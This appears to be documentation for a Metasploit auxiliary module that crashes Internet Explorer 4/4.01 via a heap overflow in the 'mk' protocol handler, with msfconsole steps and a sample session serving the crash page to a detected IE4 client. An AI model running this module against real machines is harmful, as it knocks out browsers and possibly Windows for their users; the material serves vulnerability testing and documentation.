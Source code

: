 ## Vulnerable Application

This module exploits a vulnerability found in Microsoft Internet Explorer 4 and
4.01 on Windows 95 OSR1, OSR2, and NT Workstation/Server.

A heap based buffer overflow in the handling of the 'mk' protocol can lead to remote
code execution.  However, due to the age of the vulnerability, and the relatively
rigid offset requirements based on IE version, the bug is simply put as a DoS as
no one should be using IE4 in 2020+.

This DoS will also crash the Active Desktop, and potentially Windows itself.

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/dos/browser/ie_mk_handler_dos`
1. Do: `run`
1. Do: Browse to the URL with IE4
1. IE4/4.01 (and the Active Desktop) will crash.  Windows may also crash

## Options

## Scenarios

### IE 4.01 on Windows 95

```
msf5 > use auxiliary/dos/browser/ie_mk_handler_dos
msf5 auxiliary(dos/browser/ie_mk_handler_dos) > run
[*] Auxiliary module running as background job 0.
msf5 auxiliary(dos/browser/ie_mk_handler_dos) > 
[*] Using URL: http://0.0.0.0:8080/v4o58g7d4IJX
[*] Local IP: http://192.168.2.199:8080/v4o58g7d4IJX
[*] Server started.
[+] Vulnerable IE detected: Mozilla/4.0 (compatible; MSIE 4.01; Windows 95)
[*] Sending HTML...
```
